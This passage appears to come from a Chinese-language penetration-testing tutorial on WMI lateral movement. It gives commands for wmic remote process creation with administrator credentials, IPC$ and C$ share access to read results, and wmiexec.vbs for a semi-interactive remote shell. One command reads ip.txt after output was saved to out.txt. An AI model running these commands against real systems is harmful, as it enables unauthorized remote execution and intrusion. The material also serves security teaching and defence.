 ![](img/6.png)

也可以使用目标系统的cmd.exe执行一条命令，将执行结果保存在C盘的out.txt文件中，

```bash
# 将文件内容写入到 out.txt
wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c ipconfig >c:\out.txt"
```

建立`ipc$`后，使用`type`命令读取执行结果：

```bash
net use \\192.168.91.178\ipc$ "Abcd1234" /user:administrator
type \\192.168.91.178\C$\ip.txt
```

#### cscript

利用系统内置命令，可获取`交互式shell`
（`无法在cs中使用，因运行成功后会一直进行反弹连接，导致卡bug`）
需上传 `wmiexec.vbs` 然后进入该服务器内进行执行。
`Wmiexec.vbs`脚本通过VBS调用WMI来模拟PsExec功能。`wmiexec.vbs`可以在远程系统中执行命令并进行回显，获得远程主机的`半交互式shell`

**提供账号密码，执行如下命令：**

```bash
cscript //nologo wmiexec.vbs /shell 192.168.91.178 username password
```
